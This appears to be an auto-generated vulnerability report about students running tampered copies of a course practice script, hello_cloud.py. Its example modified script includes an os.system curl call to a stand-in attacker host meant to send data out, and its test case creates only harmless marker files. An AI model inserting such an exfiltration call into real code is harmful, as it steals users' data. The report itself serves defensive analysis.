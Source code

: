 ### Vulnerability List

- Vulnerability Name: Arbitrary code execution via malicious practice file
- Description:
    1. An attacker crafts a modified version of a practice file, such as `hello_cloud.py`, to include malicious Python code.
    2. The attacker distributes this modified file through untrusted channels, for example, by hosting it on a malicious website or sharing it via email.
    3. A student, intending to use practice files from the Google IT Automation with Python Professional Certificate, unknowingly downloads the malicious file from the untrusted source.
    4. The student executes the downloaded Python script on their local machine, believing it to be a legitimate practice file.
    5. The malicious code embedded in the script executes with the privileges of the student, leading to arbitrary code execution on their system. For example, the malicious code could steal data, install malware, or compromise the system in other ways.
- Impact:
    Arbitrary code execution on the student's local machine. This can lead to:
    - Data theft: Malicious code can access and exfiltrate sensitive information stored on the student's computer.
    - Malware installation: The attacker can install malware, such as viruses, trojans, or ransomware, on the student's system.
    - System compromise: The attacker can gain persistent access to the student's machine, potentially leading to further attacks or misuse of resources.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    None. The project, as a collection of practice files, does not implement any specific security mitigations against users downloading and running modified files from untrusted sources. The repository itself is hosted on a trusted platform (GitHub), but there are no mechanisms to prevent or warn users about downloading modified files from elsewhere.
- Missing Mitigations:
    - Code signing for practice files: Digitally signing the practice files would allow students to verify the authenticity and integrity of the files before execution.
    - Integrity checks: Providing checksums or other integrity verification mechanisms for the practice files on the official repository would enable students to compare downloaded files against the trusted versions.
    - Security awareness guidance: Including clear warnings and instructions in the README and course materials, advising students to only download practice files from the official repository and to be cautious about downloading and executing code from untrusted sources.
- Preconditions:
    1. The attacker must be able to modify a practice file and distribute it through untrusted channels.
    2. The student must be socially engineered into downloading and executing the modified practice file from an untrusted source.
    3. The student must have Python installed on their local machine to execute the Python scripts.
- Source Code Analysis:
    - The provided project files are Python scripts intended for educational purposes.
    - Files like `/code/Course5/Lab3/hello_cloud.py` are designed to be executed locally by students.
    - There is no inherent vulnerability in the original scripts themselves when obtained from the official repository.
    - The vulnerability arises when a malicious actor modifies these scripts to include arbitrary code and tricks a student into running the modified version.
    - For example, in `/code/Course5/Lab3/hello_cloud.py`, an attacker could insert malicious code within the `do_GET` method of the `Handler` class or at the script's entry point (`if __name__ == "__main__":`).
    ```python
    #!/usr/bin/env python3
    # ... (rest of the original hello_cloud.py code) ...
    import os  # Malicious import added by attacker

    class Handler(http.server.SimpleHTTPRequestHandler):
        def do_GET(self):
            os.system("curl https://malicious.attacker.com/steal-data > /tmp/data_exfiltrated") # Malicious command execution
            self.send_response(http.HTTPStatus.OK)
            self.end_headers()
            # Hello message
            self.wfile.write(b'Hello Cloud')
            # ... (rest of the original do_GET method) ...

    def main(argv):
        os.system("mkdir -p /tmp/attacker_directory") # Malicious command execution at script start
        # ... (rest of the original main function) ...

    if __name__ == "__main__":
        main(sys.argv)
    ```
    - In this modified example, the attacker has added `import os` and uses `os.system()` to execute arbitrary commands. When the student runs this script, it will attempt to create a directory and when a GET request is sent to the server, it will attempt to exfiltrate data to a remote server. This is a simplified example; the malicious code could be far more sophisticated.

- Security Test Case:
    1. **Preparation**:
        - Create a modified version of `/code/Course5/Lab3/hello_cloud.py` and insert malicious code. For example, add the following lines at the beginning of the file and inside the `do_GET` method:
            ```python
            import os
            import http
            import http.server
            import socket
            import socketserver
            import sys

            MALICIOUS_FILE = "/tmp/malicious_test_file"

            class Handler(http.server.SimpleHTTPRequestHandler):
                def do_GET(self):
                    os.system(f"touch {MALICIOUS_FILE}_get") # Malicious command execution on GET request
                    self.send_response(http.HTTPStatus.OK)
                    self.end_headers()
                    # Hello message
                    self.wfile.write(b'Hello Cloud')
                    # Now get the hostname and IP and print that as well.
                    hostname = socket.gethostname()
                    host_ip = socket.gethostbyname(hostname)
                    self.wfile.write(
                        '\n\nHostname: {} \nIP Address: {}'.format(
                            hostname, host_ip).encode())


            def main(argv):
                os.system(f"touch {MALICIOUS_FILE}_main") # Malicious command execution on script start
                port = DEFAULT_PORT
                if len(argv) > 1:
                    port = int(argv[1])

                web_server = socketserver.TCPServer(('', port), Handler)
                print("Listening for connections on port {}".format(port))
                web_server.serve_forever()


            if __name__ == "__main__":
                main(sys.argv)

            ```
        - Distribute this modified `hello_cloud.py` file through a simulated untrusted channel (e.g., place it in a separate folder representing a "downloaded from untrusted source" scenario).

    2. **Execution**:
        - As a student, navigate to the directory containing the modified `hello_cloud.py` file.
        - Execute the script using Python: `python hello_cloud.py`
        - Open a web browser and access the server at `http://localhost:8000`. This will trigger the `do_GET` method.

    3. **Verification**:
        - Check if the files `/tmp/malicious_test_file_main` and `/tmp/malicious_test_file_get` exist on the system.
        - If both files exist, it confirms that the malicious code inserted into both the main script execution path and the `do_GET` method has been successfully executed.

    4. **Expected Result**:
        - The files `/tmp/malicious_test_file_main` and `/tmp/malicious_test_file_get` should be created, demonstrating successful arbitrary code execution. This proves the vulnerability.

This test case demonstrates how easily a practice file can be modified to execute arbitrary code when a student runs it, highlighting the arbitrary code execution vulnerability due to the lack of integrity checks and potential social engineering attacks.